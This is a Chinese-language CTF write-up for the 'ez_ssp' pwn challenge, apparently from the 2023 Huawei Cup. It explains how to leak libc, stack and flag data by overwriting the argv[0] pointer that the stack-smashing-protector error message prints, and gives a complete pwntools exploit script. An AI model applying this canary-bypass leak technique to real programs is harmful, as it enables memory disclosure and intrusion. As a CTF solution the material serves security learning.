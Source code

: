# ez_ssp

题目存在非常明显的栈溢出漏洞，但是开启了`Canary`保护，因此无法直接利用栈溢出。并且允许执行三次栈溢出，剩下两次是通过`fork`函数，通过拷贝子进程进行执行的。

`fork`出的子进程有个特点，会与父进程生成的`Canary`值一致，刚开始考虑的时通过爆破获取`Canary`值，但是`Canary`的长度为八个字节，因此不够次数。但是在触发`Canary`保护时会有一个特点，如下图所示，会泄露出程序名，而程序名是存储在栈上面的。![image-20231001224503030](D:\ctf-competition\2023华为杯\2023华为WriteUp\image-20231001224503030.png)

并且该栈值刚好能够通过`gets`函数输入覆盖，因此只需要将该值覆盖为需要泄露的地址即可。

![image-20231001225200713](D:\ctf-competition\2023华为杯\2023华为WriteUp\image-20231001225200713.png)

## exp

```python
from pwn import *
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
sh = process("./pwn")
elf = ELF("pwn")
#gdb.attach(sh, "b*0x400B8B")
sh.recvuntil("ame?")
sh.send("\x00")
sh.recvuntil("nt to do?")
payload = "a" * 0x128
payload += p64(elf.got['puts'])
sh.sendline(payload)
sh.recvuntil("tected ***: ")
addr = u64(sh.recv(6).ljust(8,"\x00"))
log.info("addr:"+hex(addr))
libcbase = addr - libc.symbols['puts']
log.info("libcbase:"+hex(libcbase))


sh.recvuntil("ame?")
sh.send("\x00")
sh.recvuntil("nt to do?")
payload = "a" * 0x128
payload += p64(libcbase + libc.symbols['environ'])
sh.sendline(payload)
sh.recvuntil("tected ***: ")
addr = u64(sh.recv(6).ljust(8,"\x00"))
log.info("addr:"+hex(addr))

target = addr - 0x178
sh.recvuntil("ame?")
sh.send("\x00")
sh.recvuntil("id is: ")
xor = int(sh.recvuntil("\n", drop = True),10)
log.info("xor:"+str(xor))
sh.recvuntil("nt to do?")
payload = "a" * 0x128
payload += p64(target)
sh.sendline(payload)
sh.recvuntil("tected ***: ")
data = sh.recvuntil("terminated", drop=True)
print(data)
flag = ""
for i in data:
	try:
		flag += chr(ord(i) ^ xor)
	except:
		continue
print(flag)
```